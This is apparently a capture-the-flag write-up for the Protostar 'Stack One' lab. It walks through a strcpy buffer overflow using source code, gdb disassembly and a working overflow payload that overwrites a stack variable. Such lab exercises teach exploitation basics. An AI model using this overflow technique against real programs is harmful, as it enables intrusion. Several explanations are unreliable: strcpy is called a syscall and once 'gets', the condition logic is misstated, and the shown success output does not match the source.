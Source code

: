 # Stack One

> This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory. This level is at /opt/protostar/bin/stack1
>
>
>
> **Hints**
>
> * If you are unfamiliar with the hexadecimal being displayed, “man ascii” is your friend
> * Protostar is little endian

## Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

This program requires us to pass arguments, with `argv[0]` being the program name. If we don't provide an extra argument, we are asked to specify an argument.

The `strcpy` system call is used to read user input into the buffer.

Let's look at it's manual page.

```c
char strcpy(char restrict dst, const char restrict src);
```

We can see that the characters are read from `argv[1]` and copied to the `buffer`.

It is better that the `gets` syscall but it still has it's own problems.

```
CAVEATS 

    The strings src and dst may not overlap.

    If the destination buffer is not large enough, the behavior is
    undefined.
```

So the `strcpy` syscall stores characters past the end of the buffer. This essentially breaks the limit set on the buffer which means we can input more than 64 bytes.

This is the vulnerability that we have to exploit.

But before that let's go through the rest of the code.

There is an `if` statement which checks if the value of `modified` in not equal to `0x61626364`. If it is not equal to 0, it prints out a string `else` it prompts us to try again.

We have to overwrite the `modified` variable using a buffer overflow. For that we have have to know where the `modified` variable is located.

Let's disassemble the program in `gdb`.

```
(gdb) disassemble main
Dump of assembler code for function main:
0x08048464 <main+0>:    push   ebp
0x08048465 <main+1>:    mov    ebp,esp
0x08048467 <main+3>:    and    esp,0xfffffff0
0x0804846a <main+6>:    sub    esp,0x60
0x0804846d <main+9>:    cmp    DWORD PTR [ebp+0x8],0x1
0x08048471 <main+13>:   jne    0x8048487 <main+35>
0x08048473 <main+15>:   mov    DWORD PTR [esp+0x4],0x80485a0
0x0804847b <main+23>:   mov    DWORD PTR [esp],0x1
0x08048482 <main+30>:   call   0x8048388 <errx@plt>
0x08048487 <main+35>:   mov    DWORD PTR [esp+0x5c],0x0
0x0804848f <main+43>:   mov    eax,DWORD PTR [ebp+0xc]
0x08048492 <main+46>:   add    eax,0x4
0x08048495 <main+49>:   mov    eax,DWORD PTR [eax]
0x08048497 <main+51>:   mov    DWORD PTR [esp+0x4],eax
0x0804849b <main+55>:   lea    eax,[esp+0x1c]
0x0804849f <main+59>:   mov    DWORD PTR [esp],eax
0x080484a2 <main+62>:   call   0x8048368 <strcpy@plt>
0x080484a7 <main+67>:   mov    eax,DWORD PTR [esp+0x5c]
0x080484ab <main+71>:   cmp    eax,0x61626364
0x080484b0 <main+76>:   jne    0x80484c0 <main+92>
0x080484b2 <main+78>:   mov    DWORD PTR [esp],0x80485bc
0x080484b9 <main+85>:   call   0x8048398 <puts@plt>
0x080484be <main+90>:   jmp    0x80484d5 <main+113>
0x080484c0 <main+92>:   mov    edx,DWORD PTR [esp+0x5c]
0x080484c4 <main+96>:   mov    eax,0x80485f3
0x080484c9 <main+101>:  mov    DWORD PTR [esp+0x4],edx
0x080484cd <main+105>:  mov    DWORD PTR [esp],eax
0x080484d0 <main+108>:  call   0x8048378 <printf@plt>
0x080484d5 <main+113>:  leave
0x080484d6 <main+114>:  ret
```

The instruction at `main+67` sets up the check.

```
0x080484a7 <main+67>:   mov    eax,DWORD PTR [esp+0x5c]
0x080484ab <main+71>:   cmp    eax,0x61626364
```

The value in `eax` is compared with `0x61626364` which in ASCII is `abcd`. This value is moved from `esp+0x5c`.

Next, we want to locate the buffer.

```
--snip--;
0x0804849b <main+55>:   lea    eax,[esp+0x1c]
0x0804849f <main+59>:   mov    DWORD PTR [esp],eax
0x080484a2 <main+62>:   call   0x8048368 <strcpy@plt>
--snip--;
```

In 32-bit assembly the arguments for a `call` are stored onto the `stack`.

In our program the `gets` syscall takes the location of the buffer as argument. This buffer is located at `esp+0x1c`.

The distance between the location of the `modified` variable and the buffer is the following:

```
(gdb) p/d 0x5c - 0x1c
$1 = 64
```

The variable is located right where the buffer ends.

Therefore we need 68 bytes in total, 64 bytes to fill the buffer and 4 bytes to overwrite the `modified` variable.

```
$ ./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAabcd
Try again, you got 0x64636261
```

Ah! The characters are being stored in [little-endian](https://www.geeksforgeeks.org/little-and-big-endian-mystery/) format. So `abcd` is being flipped to `dcba`.

In order to pass the check, we have to provide the the flipped string i.e. `dcba`.

## Exploit

```
$ ./stack1 $(python -c 'print "A"*64 + "dcba")
you have changed the 'modified' variable
```
